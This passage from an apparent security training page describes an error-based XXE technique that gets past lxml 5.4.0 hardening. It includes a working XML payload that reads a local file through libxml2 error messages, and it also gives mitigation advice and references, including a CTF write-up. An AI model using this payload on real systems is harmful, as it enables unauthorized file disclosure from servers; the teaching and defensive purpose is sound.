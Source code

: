 > [!TIP]
> If the parser complains about `%`/`&` characters inside the internal subset, double-encode them (`&#x26;#x25;` ⇒ `%`) to delay expansion.

#### 2. Bypassing the lxml 5.4.0 hardening (libxml2 still vulnerable)
`lxml` ≥ 5.4.0 forbids *error* parameter entities like the one above, but **libxml2** still allows them to be embedded in a *general* entity.  The trick is to:
1. Read the file into a parameter entity `%file`.
2. Declare another parameter entity that builds a **general** entity `c` whose SYSTEM identifier uses a *non-existent protocol* such as `meow://%file;`.
3. Place `&c;` in the XML body.  When the parser tries to dereference `meow://…` it fails and reflects the full URI – including the file contents – in the error message.

```xml
<!DOCTYPE colors [
  <!ENTITY % a '
    <!ENTITY % file SYSTEM "file:///tmp/flag.txt">
    <!ENTITY % b "<!ENTITY c SYSTEM 'meow://%file;'>">
  '>
  %a; %b;
]>
<colors>&c;</colors>
```

#### Key takeaways
* **Parameter entities** are still expanded by libxml2 even when `resolve_entities` should block XXE.
* An **invalid URI** or **non-existent file** is enough to concatenate controlled data into the thrown exception.
* The technique works **without outbound connectivity**, making it ideal for strictly egress-filtered environments.

#### Mitigation guidance
* Upgrade to **lxml ≥ 5.4.0** and ensure the underlying **libxml2** is **≥ 2.13.8**.
* Disable `load_dtd` and/or `resolve_entities` unless absolutely required.
* Avoid returning raw parser errors to the client.

## References

- [https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
- [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)
- Extract info via HTTP using own external DTD: [https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/](https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection)
- [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)
- [https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)
- [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
- [https://gosecure.github.io/xxe-workshop/#7](https://gosecure.github.io/xxe-workshop/#7)

- [Dojo CTF Challenge #42 – Hex Color Palette XXE write-up](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-42)
- [lxml bug #2107279 – Parameter-entity XXE still possible](https://bugs.launchpad.net/lxml/+bug/2107279)

{{#include ../banners/hacktricks-training.md}}
